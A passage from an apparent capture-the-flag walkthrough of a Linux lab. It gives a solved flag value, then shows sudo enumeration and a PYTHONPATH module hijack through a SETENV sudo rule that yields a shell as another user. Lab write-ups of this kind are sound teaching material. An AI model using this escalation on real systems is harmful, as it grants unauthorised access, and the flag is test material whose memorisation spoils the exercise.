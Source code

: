 # Answer : reza{2f1901644eda75306f3142d837b80d3e}

# What is jordan's flag?

As usual :
```
reza@linuxagency:~$ sudo -l
sudo -l
Matching Defaults entries for reza on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User reza may run the following commands on linuxagency:
    (jordan) SETENV: NOPASSWD: /opt/scripts/Gun-Shop.py
```

Let's check this script
```
reza@linuxagency:~$ sudo -l
sudo -l
Matching Defaults entries for reza on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User reza may run the following commands on linuxagency:
    (jordan) SETENV: NOPASSWD: /opt/scripts/Gun-Shop.py
reza@linuxagency:~$ cat /opt/scripts/Gun-Shop.py
cat /opt/scripts/Gun-Shop.py
cat: /opt/scripts/Gun-Shop.py: Permission denied
reza@linuxagency:~$ sudo -u jordan /opt/scripts/Gun-Shop.py
sudo -u jordan /opt/scripts/Gun-Shop.py
Traceback (most recent call last):
  File "/opt/scripts/Gun-Shop.py", line 2, in <module>
    import shop
ModuleNotFoundError: No module named 'shop'
```

Let's check the policy details by using **sudo -ll**
```
reza@linuxagency:~$ sudo -ll
sudo -ll
Matching Defaults entries for reza on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User reza may run the following commands on linuxagency:

Sudoers entry:
    RunAsUsers: jordan
    Options: setenv, !authenticate
    Commands:
	/opt/scripts/Gun-Shop.py
```
**setenv** is available.
```
reza@linuxagency:~$ sudo -u jordan PYTHONPATH=/tmp/testshop/ /opt/scripts/Gun-Shop.py
<rdan PYTHONPATH=/tmp/testshop/ /opt/scripts/Gun-Shop.py
jordan@linuxagency:/home/reza$ whoami
whoami
jordan
jordan@linuxagency:/home/reza$ cd /home/jordan
cd /home/jordan
jordan@linuxagency:~$ ls -l
ls -l
```